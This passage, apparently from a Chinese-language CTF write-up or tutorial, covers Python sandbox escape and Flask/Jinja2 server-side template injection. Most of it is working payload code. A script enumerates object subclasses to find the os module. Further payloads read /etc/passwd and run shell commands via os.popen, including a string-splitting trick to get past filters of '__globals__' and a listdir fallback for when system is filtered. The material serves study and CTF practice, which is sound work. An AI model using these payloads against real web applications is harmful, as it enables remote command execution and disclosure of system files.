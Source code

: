 ```bash
        break

```

寻找 os：

```bash
#!/usr/bin/env python
# encoding: utf-8

num = 0
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if 'os' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        print '-'
        num+=1

```

>os模块提供了多数操作系统的功能接口函数。当os模块被导入后，它会自适应于不同的操作系统平台，根据不同的平台进行相应的操作，在python编程时，经常和文件、目录打交道，这时就离不了os模块

---
## 五：利用方法
 找到位置即可直接调用命令

1, **<type ‘file’>**

File位置一般在40 可直接调用

```bash
 [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```

2, **<class ‘site._Printer’>**

直接用os的popen执行命令：

```bash
{{[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()}}

[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls /flasklight').read()

[].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('cat coomme_geeeett_youur_flek').read()

如果system被过滤，用os的listdir读取目录+file模块读取文件：
().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')

```


3, **<class ‘subprocess.Popen’>**
